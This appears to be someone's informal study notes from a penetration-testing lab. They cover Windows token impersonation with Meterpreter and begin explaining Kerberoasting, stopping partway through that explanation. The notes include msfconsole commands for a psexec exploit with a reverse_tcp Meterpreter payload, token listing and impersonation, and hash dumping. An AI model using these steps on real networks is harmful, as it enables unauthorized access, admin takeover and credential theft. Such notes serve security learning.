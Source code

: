 
## Token Impersonation
Temporary keys that allow you access to a system/network without having to provide your password each time u access a file. 
Like cookies for computer.
2 Types:
- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script.
Delegate Tokens are much easiest to show so lets do that.
After getting shell in meterpreter load tokens then list tokens then get into there shell by using the token. Then try to dump all the hashes.
![[Pasted image 20250107230948.png]]
STEP 2
![[Pasted image 20250107231012.png]]
Here access was denied but here it was denied. Because of some reason but what if token was available.
![[Pasted image 20250107231244.png]]

Dumping hashes
![[Pasted image 20250107231429.png]]

Take away: I u have a token of local admin that u can impersonate that means u have domain admin.
For carrying this attack we need msfconsole.
use exploit/windows/smb/psexec
[set options]
set payload windows/x64/meterpreter/reverse_tcp
run
![[Pasted image 20250107232057.png]]
Now u can use tools for dumping passwords. they prefix load.
Inject PowerShell as well
First you have to load incognito feature.
`list_tokens -u`
![[Pasted image 20250107232703.png]]
U can see that Marvel\\\Administrator is available so lets try to use that.
![[Pasted image 20250107232757.png]]

![[Pasted image 20250107232859.png]]
Ok this happened because we were not running as root of the machine after this.  rev2self will make this session go back to the original session that we started as.
Recap,
Why did it work why did we find administrator account token because admin had a running session on that machine. Delegate tokens are for logins or RDP. They exist till token is rebooted.
If some other user shows up and logs in then u can get there token as well through the same meterpreter session.
Something interesting most servers do not reboot that much. This means that token will sit there till for a long time.
![[Pasted image 20250107233807.png]]
Up next kerberoasting attack
## kerberoasting attack
How does kerberoasting work. Domain Controller works as a Key Distribustion Center (KDC). The User/Victim will authenticate to domain controller to get TCT(ticket granting ticket) by providing a hash.
The domain controller will grant TGT and encrypt that with Kerberos TGT hash.
So we need username and password. And any valid user will get a ticket granting ticker.
What happens next? 
There is an application server (SQL, HTTP what  ever). For accessing this service we need TGS (ticket granting service) from domain controller. So we will request this with TGT.